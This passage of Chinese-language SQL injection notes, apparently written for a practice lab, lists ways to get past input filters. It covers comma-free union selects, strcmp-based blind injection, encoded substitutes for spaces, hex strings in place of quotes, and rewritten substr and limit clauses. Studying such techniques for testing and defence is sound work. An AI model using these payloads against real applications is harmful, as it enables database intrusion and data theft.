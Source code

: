 ###### ④and和or

```sql
#使用关键字双写、关键字替换、内联注释、多行注释来替代
```

###### ⑤逗号

```sql
	1' union select 1,2,3 --+
=> 	1' union select * from (select 1)a join (select 2)b join (select 3)c --+
```


##### j. 过滤掉and和or的盲注

```sql
index.php?id=strcmp(left((select username from users limit 0,1),1),0x42)#
index.php?id=strcmp(left((select+username+from+users+limit+0,1),1)0x42)#

#strcmp()函数，两值相等返回0，小于返回-1，大于返回1

#sql语句为：
select * from users where id=strcmp(left((select username from users limit 0,1),1),0x42);
```

#### (3). 特定符号被过滤

###### ①空格被过滤

| 符号 | 替换内容               |
| ---- | ---------------------- |
| 空格 | %20  (标准空格)        |
| 空格 | %09  (tab键，水平)     |
| 空格 | **%0a  (换行符)**      |
| 空格 | %a0  (不间断空格)      |
| 空格 | **%0b  (tab键，垂直)** |
| 空格 | %0c  (新的一页)        |

###### ②单引号被过滤

* 将字符转换为16进制，不使用单引号

  ```sql
  	select * from users where username='Dumb'
  =>	select * from users where username=0x44756d62
  ```

###### ③逗号被过滤

```sql
#1. from to
	select substr(database(),1,1);
	=> select substr(database() from 1 to 1);
#2. join
	select 1,2,3
	=> select * from (select 1)a join (select 2)b join (select 3)c
#3. offset
	select * from users limit 0,1;
	=> select * from users limit 1 offset 0;
```
